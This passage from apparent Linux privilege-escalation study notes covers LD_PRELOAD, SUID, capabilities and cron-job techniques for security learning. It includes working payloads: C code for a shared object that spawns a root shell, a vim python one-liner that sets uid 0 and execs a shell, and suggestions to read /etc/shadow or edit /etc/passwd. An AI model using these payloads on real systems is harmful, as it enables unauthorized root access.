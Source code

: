 ```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;  
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`  
This will result in a shell spawn with root privileges.  
<img src="https://user-images.githubusercontent.com/73976100/224015606-15b05e75-fb9a-4624-86dd-4cc9b5334cd6.png" width=1000>  

### Privilege Escalation: SUID
[Linux: SUID、SGID、スティッキービットまとめ](https://qiita.com/aosho235/items/16434a490f9a05ddb0dc)  
Users within their privilege levels changes with SUID(Set-user Identification) and SGID(Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.  
`find / -type f -perm -04000 -ls 2>/dev/null`: list files that have SUID or SGID bits set  
<details><summary>image</summary></details>  

Clicking on the SUID button in [GTFOBins](https://gtfobins.github.io/#+suid)  

The list above shows that nano has the SUID bit set. Unfortunately, GTFObins does not provide us with an easy win.  

The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the `/etc/shadow` file or adding our user to `/etc/passwd`.  

<details><summary> demo </summary></details>

### Privilege Escalation: Capabilities
Capabilities help manage privileges at a more granular level.  
<details></details>  

We can use the `getcap` tool to list enabled capabilities.  
`getcap -r / 2>/dev/null`:  
<img src="https://user-images.githubusercontent.com/73976100/224457735-9470b2ac-a3f6-46ad-8a0e-a535a636d2d1.png" width="800">  
[GTFObins](https://gtfobins.github.io/#+Capabilities) has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.  
We notice that vim can be used with the following command and payload:

`./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`

### Privilege Escalation: Cron Jobs
Cron jobs are used to run scripts or binaries at specific times. If there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.  
Our goal will be to find a cron job set by root and have it run our script, ideally a shell.
<details><summary>demo</summary></details>
Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level:
1. System administrators need to run a script at regular intervals.
2. They create a cron job to do this
3. After a while, the script becomes useless, and they delete it
4. They do not clean the relevant cron job

